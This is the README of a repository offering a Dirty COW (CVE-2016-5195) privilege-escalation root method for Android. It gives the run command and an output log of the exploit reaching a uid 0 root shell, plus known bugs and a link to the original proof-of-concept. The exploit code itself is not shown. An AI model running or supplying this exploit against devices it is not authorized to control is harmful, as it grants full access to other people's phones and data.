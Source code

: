 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
Youtube: https://www.youtube.com/watch?v=bzrRWfDOQcM  
    
Should Spawn a root shell on device  
Usage sudo make root  
Output:  
[*] mmap 0xb6f00000  
[*] exploit (patch)  
[*] currently 0xb6f00000=464c457f  
[*] madvise = 0xb6f00000 13708  
[*] madvise = 0 1048576  
[*] /proc/self/mem 0 1048576  
[*] exploited 0xb6f00000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
root@ZTE-V811:/ #
  
##Bugs / Problems  
1)  
  System Will Hang If You Exec a command on spawned shell Temp Fix: Exit Back to Terminal and type  
  "adb shell"  
  "run-as"  
  Going "adb shell run-as" will produce the hang  
2) 
  Android 5 (Samsung Galaxy S4)  
  setresgid/setresuid failed  
  
3) 
    Incompatible with devices with system partitions made read-only by the _hardware_, such as the DigiLand DL718M and other supercheap       devices. 
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
